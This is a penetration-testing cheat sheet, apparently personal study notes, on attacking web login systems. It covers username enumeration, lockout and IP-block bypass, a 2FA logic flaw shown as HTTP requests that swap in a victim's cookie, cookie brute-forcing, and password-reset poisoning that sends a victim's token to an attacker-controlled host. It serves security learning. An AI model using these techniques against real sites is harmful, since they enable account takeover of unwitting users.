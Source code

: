 # Authentication

## <mark style="color:yellow;">Usernames enumeration</mark>

#### 👤 Default username

```
admin
administrator
firstname.lastname@somecompany.co
```

#### 🖊️ Regisitration form&#x20;

Create account and see if there's error like "account already exists".

#### 🆚 Comparing responses

Use a valid user and an invalid user (and incorrect password). One character out of place makes the messages distinct, even if not visible on the page.

{% hint style="success" %}
**Tip**: Use "Grep - match" in Burp Intruder to fetch the error message
{% endhint %}

#### 🔒 Account locking

Try 3/5 login. If the account is locked, it could mean that there is.

#### ⏱️ Response times

A website may only check the password if the username is valid. So, entering an excessively long password causes a noticeable delay.

## <mark style="color:yellow;">Passwords</mark>

[password-cracking.md](../../iv-miscellaneous/password-cracking.md "mention")

## <mark style="color:yellow;">Account locking</mark>

#### 🔐 Guess password with locked account&#x20;

With your account locked, send a request with an incorrect password and another with a correct password. Is the response different?

#### 🛑➡️ IP blocked bypass

* The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)&#x20;
* Try to bypass by adding `X-Forwarded-For` header

#### 🔑🔄 With password change

See if you can change the password of an arbitrary user. E.g: look for a hidden username paramer (control it).  Brute-force password when you enter your current password.

{% hint style="success" %}
**Tip**: use your account and notice different behavior.

* current password: wrong, new-password-1=XXX, new-password-2=XXX
* current password: wrong, new-password-1=XXX, new-password-2=YYY
* current password: \<right>, new-password-1=XXX, new-password-2=XXX
* current password: \<right>, new-password-1=XXX, new-password-2=YYY
{% endhint %}

## <mark style="color:yellow;">2FA</mark> <a href="#bypassing-two-factor-authentication" id="bypassing-two-factor-authentication"></a>

#### ⚔️ Brute-force OTP <a href="#brute-forcing-2fa-verification-codes" id="brute-forcing-2fa-verification-codes"></a>

#### 🔓➡️ Bypassing two-factor authentication  <a href="#brute-forcing-2fa-verification-codes" id="brute-forcing-2fa-verification-codes"></a>

Check if you can directly skip to "logged-in" pages.

#### 🧠 Flawed logic <a href="#brute-forcing-2fa-verification-codes" id="brute-forcing-2fa-verification-codes"></a>

<pre class="language-http"><code class="lang-http"><strong># 1 step - (REQUEST) Normal login with attacker account
</strong>POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
[...]
username=attacker&#x26;password=qwerty
</code></pre>

```http
# 1 step - (RESPONSE) The server sets cookie
HTTP/1.1 200 OK
Set-Cookie: account=attacker
```

```http
# 2 step - request two-factor
GET /login-steps/second HTTP/1.1
Cookie: account=attacker
```

```http
# 3 step - submit the two-factor code with victim cookie
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```

## <mark style="color:yellow;">Remember me option</mark>

Some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp (or maybe even the password). If the website uses salt it becomes much more complicated...

#### 🧠 Study your cookie and deduce how it is generated

Sometimes this cookie is hashed or encoded (e.g. base64)

#### ⚔️ Brute-force other users' cookies to gain access to their accounts

## <mark style="color:yellow;">Password reset</mark>

#### 🔧 **Control username parameter**

After you receive an email with the URL to reset your password, see if you can control username parameter.

```http
POST /forgot-pwd?temp-token=xxx HTTP/2
[...]

user=<victim>&new-pwd-1=<whatever>&new-pwd-2=<whatever>&token=xxx
```

#### 🔑🔒 **Resetting passwords using a URL (static token)** <a href="#resetting-passwords-using-a-url" id="resetting-passwords-using-a-url"></a>

Poor implementation can use guessable parameter: E.g.: `http://vulnerable-website.com/reset-password?user=victim-user`

#### 🕵️‍♂️⚡ **Steal another user's token (for dynamic token)** <a href="#resetting-passwords-using-a-url" id="resetting-passwords-using-a-url"></a>

Add the `X-Forwarded-Host` header and see if it allows you to control the link generated by the app. This way, you can insert your website's URL so that when the user clicks on the link, they are directed to `http://your.website.com/reset-password?token=impredictabletoken`.

```http
POST /forgot-password HTTP/2
Host: 0ad400fb039bb5ea816cac4d00be00a8.web-security-academy.net
X-Forwarded-Host: your.website.com

username=lebron
```
